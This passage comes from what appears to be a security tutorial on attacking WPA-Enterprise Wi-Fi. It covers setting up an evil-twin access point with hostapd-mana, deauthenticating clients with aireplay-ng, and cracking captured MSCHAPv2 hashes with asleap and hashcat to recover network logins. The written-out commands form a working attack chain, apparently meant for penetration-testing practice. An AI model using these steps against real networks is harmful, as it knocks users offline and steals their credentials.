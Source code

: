 ![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/6b189ea5-7a53-469a-8d07-a45eac454908)


13. Turn the interface to managed mode again
    
14. Then use the following command to create fake `AP`
    

```sh
sudo hostapd-mana <file.conf>
```

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/0c73bcf5-6cf0-40f5-82a2-0a7201a59b7e)


15. Perform De-authentication attack (kick a spasific client from the network to get the handshake), Using another interface:

```sh
sudo aireplay-ng -0 0 -c <client-mac> -a <BSSID>  <interface_in_mointor_mode>
```

> Note: Delete `-c` option if you want to do it in broadcast (Kick all clients)  
> You need to use another interface in monitor mode, Also you need to set the interface to the same channel as the target network before performing the De-authenticate attack, As the following:

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/c4cafb8c-db5c-40db-bcc6-b3da158e7434)

> Tip: If there are 2 Enterprise network with the same name, You need to perform the De-authenticate attack on both of the networks.

16. then once you get handshake you will copy and paste command of asleep and adding -W /path/to/wordlist

```sh
asleap -C do:3b:8d:7b:22:00:0:91 -R 68:09:13:ac:e8:df:36:5f:42:94:fb:97:91:05:2:21:72:ff:b3:ce:c0:ca:26:f7 -W /usr/share/john/password.lst
```

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/33194df7-fec9-4f2d-b658-04beb188ee0b)


> Note: if it doesn't work with you can get the hash of the `Hashcat` tool and put it in file called `hashfile` and use this command to crack it  
> `hashcat -a 0 -m 5500 hashfile rockyou.txt --force`

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/18e2b203-ca58-4233-939d-eb26a6da24af)


17. After getting username and password here you go for connecting to the network section.

# Install Required Tools & Packages:

## FreeRADIUS

```bash
sudo apt update
sudo apt install freeradius freeradius-utils
```
